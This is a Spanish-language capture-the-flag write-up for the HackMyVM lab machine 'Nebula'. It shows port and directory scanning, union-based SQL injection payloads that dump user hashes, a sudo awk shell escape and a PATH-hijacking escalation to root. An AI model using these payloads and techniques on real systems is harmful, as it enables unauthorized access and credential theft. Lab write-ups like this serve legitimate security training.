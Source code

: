 ```yaml
---
layout: default
title: Nebula
parent: HackMyVM
---
```


# Nebula
{: .no_toc }

## Table of contents
{: .no_toc .text-delta }

1. TOC
{:toc}

---

## Enumeracion

Iniciamos con un escaneo de nmap donde encontraremos el puerto 22 y 80

```ruby
nmap -sS -n -Pn -T4 --open -p- 192.168.1.81
```

- sS: haga un TCP SYN Scan el cual hace un escaneo sigiloso sin completar las conexiones TCP, responde con un SYN/ACK si el puerto esta abierto

 - n: para que no haga resolucion DNS y tarde menos el escaneo

 - Pn: para evitar el descubrimiento de hosts

 - open: para que solo muestre los puertos abiertos

 - -p-: para que escanee todo el rango de puertos

```ruby
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Directory Fuzzing 

Haciendo uso de gobuster para enumerar directorios mediante fuerza bruta, nos encontramos con **img**, **login** y **joinus**

```ruby
gobuster dir -u http://192.168.1.81/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50
```

```ruby
/img                  (Status: 301) [Size: 310] [--> http://192.168.1.81/img/]
/login                (Status: 301) [Size: 312] [--> http://192.168.1.81/login/]
/joinus               (Status: 301) [Size: 313] [--> http://192.168.1.81/joinus/]
```

En el recurso **/joinus**  encontramos una seria de pasos para unirnos a "Nebula Labs":

![](/assets/img/nebula/1.png)

Si hacemos click en el hipervinculo **here** nos manda a la URL: **http://192.168.1.81/joinus/application_form.pdf**

Bajando un poco nos encontraremos unas credenciales filtradas:

![](/assets/img/nebula/2.png)

Si las probamos en el login anteriormente descubierto vamos a poder iniciar sesion como admin

Al darle click en el boton **Search Centrals** nos mandara a una pagina donde podremos buscar por ID

![](/assets/img/nebula/3_000.png)

Al ver la URL generada despues de hacer una busqueda, podrimos intentar una SQLi: **http://192.168.1.81/login/search_central.php?id=2**

## Union-Based SQL injection

**SQLi:** Vulnerabilidad que consiste en la inyeccion de consultas SQL maliciosas a travez de la entrada de un usuario a una base de datos con el fin de modificar el comportamiento de la consulta final

Vamos a probar un payload: **search_central.php?id=2' or 1=1-- -** y como resultado vamos a poder ver todos los datos de la tabla actual

![](/assets/img/nebula/4.png)

Una vez que tenemos una SQLi, es importante saber el numero de columnas, en este caso, se puede deducir que es 3 (id, role, username), sin embargo, la manera de hacerlo es haciendo uso de la sentencia **order by**: ' ORDER BY 3-- -, la cual hace un ordenamiento de los datos basandose en el numero que indiquemos. Sabremos el numero de columnas correcto cuando nos muestre los datos el encontrar el numero correcto, como se observa en la URL y en la tabla

![](/assets/img/nebula/5.png)

Ahora vamos a probar una inyeccion basada en union: **search_central.php?id=2' UNION SELECT 1,2,3-- -**. Sabremos que es una inyeccion union-based cuando los datos de la segunda consulta se muestran en el resultado, en este caso se muestran los numeros 1, 2, 3

![](/assets/img/nebula/6.png)

#### Enumerar bases de datos

    information_schema: es una base de datos que contiene informacion de otras bases de datos

Para enumerar bases de datos podemos usar **information_schema.schemata** e indicarle que queremos selecionar la columna **schema_name** que contiene el nombre de las bases de datos

```ruby
search_central.php?id=2' UNION SELECT schema_name, null, null FROM information_schema.schemata-- -
```

Podemos ver la base de datos **nebuladb**

![](/assets/img/nebula/7.png)

#### Enumerar tablas

    table_name: Contiene informacion de las tablas de la base de datos que se indique en table_schema (nombre de la DB)

Para enumerar tablas usaremos el siguiente payload que selecionara la columna  **table_name** de la base de datos que se indique en **table_schema**

```ruby
search_central.php?id=1'  UNION SELECT table_name, 2, 3 FROM information_schema.tables WHERE table_schema="nebuladb"-- -
```

Podemos ver las tablas

![](/assets/img/nebula/tablas.png)

#### Enumerar columnas

    column_name: Contiene informacion de las columnas de la tabla que se indique en "table_name" de la base de datos "table_schema"

Para enumerar las columnas selecionarmos la columna **column_name** de **information_schema.columns** y le indicaremos la base de datos **nebuladb** y la tabla **users**

```ruby
search_central.php?id=1' UNION SELECT column_name, 2, 3 FROM information_schema.columns WHERE table_schema="nebuladb" AND table_name="users"-- -
```

Podemos ver las columnas **username** y **password**

![](/assets/img/nebula/8.png)

#### Dumpear datos

Para seleccionar los datos de las tablas, es comun usar **CONCAT** para no sobrepasar el numero de columnas de la tabla que esta siendo usada. Pero en este caso podemos hacerlo directamente 

```ruby
' UNION SELECT CONCAT(username, password), 2, 3 FROM nebuladb.users-- -        CONCAT
```

```ruby
' UNION SELECT username, password, 3 FROM nebuladb.users-- -            NORMAL
```

Podemos ver los usuarios y sus hashes:

![](/assets/img/nebula/10.png)

Despues de probar los usuarios y contraseñas, podemos acceder via ssh como el usuario **pmccentral** y su contraseña (esta hasheada y es md5)

## pmccentral  -> laboratoryadmin (awk abuse)

Mirando los permisos a nivel de sudoers nos podemos dar cuenta que podemos ejecutar **awk** como **laboratoryadmin**, haciendo una busqueda rapida de GTFOBins, encontramos una forma de conseguir una shell ingresando el siguiente comando

```bash
sudo -u laboratoryadmin /usr/bin/awk 'BEGIN {system("/bin/bash")}'
```

## Escalada de privilegios (PATH hijacking)

Si miramos los permisos SUID, encontraremos el  archivo **PMCEmployees**

```bash
find / -perm -u=s -type f 2>/dev/null
```

```ruby
/home/laboratoryadmin/autoScripts/PMCEmployees
```

Si entramos el directorio **autoScripts** encontraremos un archivo llamado **head** que ejecuta **bash -p**

Si usamos el comando file veremos que **PMCEmployees** es un binario de 64 bits

```ruby
PMCEmployees: setuid ELF 64-bit
```

Usando **strings ./PMCEmployees** encontramos que se este ejecutando el comando **head** desde una ruta relativa:

```ruby
head /home/pmccentral/documents/employees.txt
```
Lo cual es un gran indicio de **PATH hijacking**

1. Primero crearemos el archivo **employees.txt**
2. Despues exportaremos la ruta acual al PATH: **export PATH=/home/laboratoryadmin/autoScripts:$PATH**
3. Y por ultimo ejecutamos el binario de nuevo y seremos root

![](/assets/img/nebula/11.png)

Eso ha sido todo, gracias por leer ❤